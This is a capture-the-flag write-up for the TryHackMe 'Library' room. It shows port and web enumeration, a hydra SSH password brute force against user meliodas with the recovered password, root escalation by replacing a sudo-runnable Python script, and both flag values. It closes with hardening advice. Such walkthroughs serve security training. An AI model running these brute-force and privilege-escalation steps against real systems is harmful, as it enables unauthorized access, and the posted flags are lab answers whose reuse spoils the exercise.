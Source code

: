 # writeups 
Scope : https://tryhackme.com/room/bsidesgtlibrary
IP :10.10.82.141


1. Information Gathering

### Port scanning and Enumeration : nmap targeted
Command :`sudo nmap -n -p22,80 -sV -T5  10.10.82.141 -vv`

Result :
```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration :  index.html(main page)

Web banner grabing with *whatweb*
```
http://10.10.82.141/ [200 OK] Apache[2.4.18], 
Country[RESERVED][ZZ], 
HTML5, 
HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], 
IP[10.10.82.141], 
Title[Welcome to  Blog - Library Machine]
```


posible users leaking : `root, meliodas, anonymous`
![image](./posibleUsers.png)


comment section, don't work.


robots.txt
```
User-agent: rockyou 
Disallow: /
```

### Web dirlisting : dirsearch
```
[05:08:32] 200 -    2KB - /images/                                          
[05:08:32] 301 -  313B  - /images  ->  http://10.10.82.141/images/          
[05:08:33] 200 -    5KB - /index.html                                       
[05:09:07] 200 -   33B  - /robots.txt                                       
[05:09:09] 403 -  300B  - /server-status                                    
[05:09:10] 403 -  301B  - /server-status/ 
```

2. Vulnerability Analysis

- SSH weak password for user:*meliodas*
```
-> hydra -l meliodas -P ~/myFiles/rockyou.txt 10.10.82.141 ssh -t 40 -VV

[22][ssh] host: 10.10.82.141   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found

```
NOTICE: other users like *root* and *anonymous* are not vulnerable like that

- bak file privilege
![image](./bakFile.png)

3. Exploitation

- SSH weak password for user:*meliodas*
![image](./sshWeak.png)

user.txt content:*flag1*
```
6d488cbb3f111d135722c33cb635f4ec
```

- bak file privilege
![image1WthPrivilege](./priv.png)
We can use this to have root privilege but let's look in the second image

![image2](./suspectFile.png)
The file cannot be edited by us, I mean *meliodas*, we connected via this user
so what we gonna is trying to bypass this one because the content of the file bak.py
don't very help us. here the content of bak.py below

![imageconten](./bakFile.png)

Then right now we know we have all privilege if we use the comment path
```
/usr/bin/python* /home/meliodas/bak.py
```
so why if we delete the actual and we create a new one with what we need,
escalate privilege
![image](./exploitSudo.png)
![imageFinal](./finalExploit.png)

root.txt content:*flag2*
```
e8c8c6c256c35515d1d344ee0488c617
```

END

3. Post Exploitation : NO

4. Report : Recommandations or best-practices

- Use strong password, if you can't create one just use a password manager
one really good called "Keepass 2", you can generate a password there, and
you can actually put an expiration date on it like that you will sure you don't
fear nothing

- Least privilege access, don't permit other users than root to delete root file,
only user with the right privilege can do it, users who don't do thing extremely urgent
like the IT departement don't allow them to have access with sudo

- On the webpage, or the blog use author name and username to make the security like
stronger, I mean the same name for posting, should be different from the one that guest
users are seeing
